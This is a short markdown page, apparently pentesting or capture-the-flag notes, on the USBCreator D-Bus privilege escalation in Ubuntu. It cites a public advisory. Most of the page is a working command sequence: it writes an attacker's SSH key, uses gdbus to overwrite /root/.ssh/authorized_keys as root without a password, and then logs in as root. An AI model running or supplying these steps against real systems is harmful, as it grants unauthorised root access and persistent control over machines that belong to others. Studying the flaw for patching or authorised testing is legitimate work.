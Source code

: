 # USBCreator D-Bus Privilege Escalation 
A vulnerability in the USBCreator D-Bus interface allows an attacker with access to a user in the sudoer group to bypass the password security policy imposed by the sudo program. The vulnerability allows an attacker to overwrite arbitrary files with arbitrary content, as root - without supplying a password. 

## Overview
If a running process uses `com.ubuntu.USBCreator` and the process is privileged one can move onto the explitation phase.

## Exploitation
This particular example is for adding the attacker's `SSH` key to the authorised keys, so that they can login without a password.
```bash
remote-machine> ps auwx | grep usb
remote-machine> echo "attacker_idrsa_key" > ~/authorized_keys
remote-machine> gdbus call --system --dest com.ubuntu.USBCreator --object-path /com/ubuntu/USBCreator --method com.ubuntu.USBCreator.Image /home/remote/authorized_keys /root/.ssh/authorized_keys true
attack-machine> ssh -i id_rsa root@10.10.10.10
```

## References
- [https://unit42.paloaltonetworks.com/usbcreator-d-bus-privilege-escalation-in-ubuntu-desktop/](https://unit42.paloaltonetworks.com/usbcreator-d-bus-privilege-escalation-in-ubuntu-desktop/)